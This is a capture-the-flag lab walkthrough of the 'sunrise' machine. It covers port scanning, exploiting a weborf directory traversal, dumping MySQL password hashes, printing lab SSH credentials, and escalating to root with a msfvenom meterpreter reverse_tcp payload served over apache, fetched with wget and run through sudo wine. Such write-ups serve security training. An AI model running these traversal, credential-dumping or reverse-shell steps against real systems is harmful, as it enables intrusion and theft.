

Good day, today I will walkthrough sunrise from a series of sunset machines.
Explor1ng
First, scan open ports
{kind=link}
arp-scan -lnmap 192.168.2.103Boot2User
On port 80, I see an apache server with the default nginx file, but on port 8080 another web server is working that looks vulnerable, let's check it.
{kind=link}
After scanning server, I find the vulnerability "weborf 0.12.2 - Directory Traversal"
{kind=link}
In the passwd file you can see the names of 2 users(sunrise and weborf).
{kind=link}
To find hidden files in the weborf server home directory using web vulnerabilities i use dirb.
{kind=link}
dirb http://192.168.2.103:8080/%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf/Excellent in mysql history file i found server credentials and now I can log in via ssh.
{kind=link}
weborf:iheartrainbows44Sunrise
Using credentials, I log in to mysql. After that, I find sunrise user credentials in mysql database.
{kind=link}
mysql -u weborf -p<show databases;use mysql;SHOW tables;SHOW COLUMNS FROM user;SELECT User FROM user;SELECT Password FROM user;Now you can log in via ssh as with user rights sunrise.
{kind=link}
sunrise:thefutureissobrightigottawearshadesBoot2Root
Using the sudo -l command, I see that I can run wine with root privileges.
{kind=link}
sudo -lSince wine is designed to run files with the .exe extension, I will generate paylod for windows using msfvenom. After generating payload, I move it using the apache2 server.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.100 LPORT=1313 -f exe > shell.exeservice apache2 startwget http://192.168.2.100/shell.exeAfter running shell.exe I get root access.
{kind=link}
And here is the root flag
{kind=link}